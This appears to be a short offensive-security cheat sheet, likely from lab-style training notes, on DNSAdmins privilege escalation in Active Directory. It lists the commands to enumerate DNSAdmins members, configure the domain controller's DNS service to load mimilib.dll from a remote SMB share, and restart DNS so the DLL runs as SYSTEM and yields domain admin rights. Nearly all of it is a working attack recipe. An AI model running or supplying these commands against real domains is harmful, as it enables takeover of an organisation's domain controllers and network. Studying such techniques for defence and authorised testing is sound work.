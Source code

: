 
# DNSAdmins

• It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
• In case the DC also serves as DNS, this will provide us escalation to DA. 
• Need privileges to restart the DNS service.

#### Enumerate the members of the DNSAdmis group
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"

# AD Module
Get-ADGroupMember -Identity DNSAdmins
```

#### Configure DLL using dnscmd.exe (needs RSAT DNS):
```powershell
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll

# Using DNSServer module (needs RSAT DNS):
$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc - Verbose -All $dnsettings.ServerLevelPluginDll = "\\172.16.50.100\dll\mimilib.dll" Set-DnsServerSetting - InputObject 
$dnsettings -ComputerName dcorp-dc -Verbose
```

#### Restart the DNS service (assuming that the DNSAdmins group has the permission to do so): 
```cmd
sc \\dcorp-dc stop dns 
sc \\dcorp-dc start dns 
```

### By default, the mimilib.dll logs all DNS queries to `C:\Windows\System32\kiwidns.log`
